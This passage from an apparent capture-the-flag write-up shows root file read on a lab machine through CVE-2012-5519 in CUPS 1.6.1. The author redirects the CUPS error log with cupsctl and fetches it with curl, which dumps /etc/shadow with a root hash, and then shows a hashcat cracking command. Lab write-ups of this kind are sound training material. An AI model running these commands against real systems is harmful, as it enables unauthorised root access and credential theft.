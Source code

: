 Some Goolging for vulnerabilities in CUPs returns CVE-2012-5519, file read as
root in CUPS 1.6.1, which matches the version here.

[This article](https://www.infosecmatter.com/metasploit-module-
library/?mm=post/multi/escalate/cups_root_file_read) does a really nice job of
both showing how to run the Metasploit module, and breaking down how it might
fail.

Looking at [the exploit source](https://github.com/rapid7/metasploit-
framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb),
it’s using `cupsctl` (saved in the `ctl_path` variable) in a current session
to set the error log to a different file (`datastore['FILE']`):

    
    
    cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")
    

#### Read Flag

The first thing I can do is get `root.txt`. I’ll set it as the error log:

    
    
    lp@antique:~$ cupsctl ErrorLog=/root/root.txt
    

Now I’ll just request that same URL:

    
    
    lp@antique:~$ curl 127.0.0.1:631/admin/log/error_log?
    b7d0a7d5ede96350d003e590c241cdc9
    

It works!

#### Shell Failures

I am able to read `/etc/shadow` to get the hashes of users on the filesystem:

    
    
    lp@antique:/dev/shm$ cupsctl ErrorLog=/etc/shadow
    lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
    root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
    daemon:*:18375:0:99999:7:::
    bin:*:18375:0:99999:7:::
    ...[snip]...
    

The only user with a hash is root. I can try to crack it using `hashcat`,
putting that full line into a file (`hash`), and running:

    
    
    $ /opt/hashcat-6.2.5/hashcat.bin hash /usr/share/wordlists/rockyou.txt --user
    

To run all of `rockyou.txt` will take over 8 hours, and it won’t find the
password.

I’ll also check to see if there’s an SSH key in `/root/.ssh/id_rsa`, but the
file doesn’t exist:
